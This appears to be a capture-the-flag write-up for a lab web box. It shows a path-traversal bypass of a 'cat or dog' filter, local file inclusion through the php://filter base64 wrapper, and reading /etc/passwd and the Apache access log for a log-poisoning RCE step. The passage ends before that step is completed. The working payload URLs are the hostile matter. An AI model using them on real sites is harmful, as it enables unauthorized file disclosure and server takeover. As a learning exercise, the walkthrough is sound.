 this message leads us to think that the system checks whether we type "cat or dog" in the url

to bypass, we can use cat/../<path to file>

that is, we will enter the folder "cats", we will leave and then we will go back to where we were but the url will pass in the verification

![image](https://user-images.githubusercontent.com/53917092/97309619-0887f200-1841-11eb-878d-97fbe36b36fa.png)

it works?

this tried to read the index.php but gave some error. but it worked

## LFI

Local File Inclusion

we can read .php files from the server

trying to read files with other extensions we have this error:

![image](https://user-images.githubusercontent.com/53917092/97310357-e347b380-1841-11eb-88d5-18e1f88f2cad.png)

"passwd.php"

the system adds the .php extension by default

we can try to read the file "index.php", without errors by coding it in base64 using "php Wrapper filter"

> http://<BOX_IP>/?view=php://filter/convert.base64-encode/resource=cat/../index

![image](https://user-images.githubusercontent.com/53917092/97311062-b647d080-1842-11eb-9b9b-eb2a0fb0261f.png)

decoding this base64 we can view the index.php source code and understand how it works

![image](https://user-images.githubusercontent.com/53917092/97311288-f73fe500-1842-11eb-947a-a1a6a2cdfb3b.png)

here we can see that the system only defines the extension when we do not define "ext".

we can read all files using "ext"

example, reading /etc/passwd

> /?view=cat/../../../../../../../../etc/passwd&ext=

![image](https://user-images.githubusercontent.com/53917092/97311598-4a199c80-1843-11eb-8dbc-f4aa09133771.png)

## RCE

Remote Code Execution

in this case we were able to scale from an LFI to a RCE by reading the log files

to read apache2 log files :

> /?view=cat/../../../../../../../../var/log/apache2/access.log&ext=
